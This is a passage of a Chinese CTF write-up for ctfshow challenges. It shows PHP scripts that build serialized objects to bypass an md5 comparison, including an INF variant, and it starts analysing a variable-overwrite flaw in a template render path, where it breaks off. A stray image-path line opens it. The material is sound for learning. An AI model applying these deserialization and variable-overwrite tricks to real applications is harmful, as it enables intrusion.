 可以从图片 img_301x33.png 中抠出 flag

{{< figure src="/ox-hugo/_20241206_155439screenshot.png" >}}


### 好玩的 PHP {#好玩的-php}

PHP 里一个数字的 md5 值和它的字符串的 md5 值是一样的，即 `md5(123) === md5("123")`

所以答案是：

```php
<?php
class ctfshow {
    private $d = '1';
    private $s = '2';
    private $b = '3';
    private $ctf = 123;
}
$o = new ctfshow();
echo urlencode(serialize($o));
```

也可以用 [INF](https://www.php.net/manual/zh/math.constants.php#constant.inf)：

```php
<?php
class ctfshow {
    private $d = 'I';
    private $s = 'N';
    private $b = 'F';
    private $ctf = INF;
}
$o = new ctfshow();
echo urlencode(serialize($o));
```


### 迷雾重重 {#迷雾重重}

在 IndexController.php 中有几个 test 开头的路由方法，漏洞其实在 testJson 方法中，该方法会读取 JSON 格式的请求参数 data，然后通过 `view('index/view', $data)` 将数据传到模板中渲染

view 方法的实现位于 support/helpers.php

```php
function view(string $template, array $vars = [], string $app = null, string $plugin = null): Response
{
    $request = \request();
    $plugin = $plugin === null ? ($request->plugin ?? '') : $plugin;
    $handler = \config($plugin ? "plugin.$plugin.view.handler" : 'view.handler');
    return new Response(200, [], $handler::render($template, $vars, $app, $plugin));
}
```

从 config/view.php 中可以找到进行模板渲染的 handler 类，继续分析它的 render 方法，发现一处变量覆盖漏洞
